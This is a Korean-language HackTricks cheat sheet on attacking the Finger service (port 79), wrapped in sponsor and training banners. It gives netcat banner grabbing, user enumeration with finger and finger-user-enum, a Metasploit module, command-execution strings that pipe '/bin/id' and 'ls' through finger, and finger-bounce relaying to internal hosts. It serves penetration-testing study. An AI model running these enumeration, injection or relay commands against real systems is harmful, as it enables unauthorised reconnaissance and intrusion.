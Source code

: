 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구와 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 우리는 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **기본 정보**

**Finger** 프로그램/서비스는 컴퓨터 사용자에 대한 세부 정보를 검색하는 데 사용됩니다. 일반적으로 제공되는 정보에는 **사용자의 로그인 이름, 전체 이름**이 포함되며, 경우에 따라 추가 세부 정보가 포함될 수 있습니다. 이러한 추가 세부 정보에는 사무실 위치 및 전화번호(가능한 경우), 사용자가 로그인한 시간, 비활성 기간(유휴 시간), 사용자가 마지막으로 읽은 메일의 시간, 사용자의 계획 및 프로젝트 파일의 내용이 포함될 수 있습니다.

**기본 포트:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **열거**

### **배너 수집/기본 연결**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **사용자 열거**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
대안으로 [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)에서 **finger-user-enum**을 사용할 수 있습니다. 몇 가지 예:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap 기본 스크립트를 사용하여 실행하는 스크립트**

### Metasploit은 Nmap보다 더 많은 트릭을 사용합니다.
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## 명령 실행
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[시스템을 finger 릴레이로 사용하기](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**취약점 평가 및 침투 테스트를 위한 즉시 사용 가능한 설정**. 20개 이상의 도구와 기능을 사용하여 어디서나 전체 침투 테스트를 실행하세요. 우리는 침투 테스터를 대체하지 않습니다 - 그들이 더 깊이 파고들고, 쉘을 터뜨리고, 재미를 느낄 수 있도록 맞춤형 도구, 탐지 및 악용 모듈을 개발합니다.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
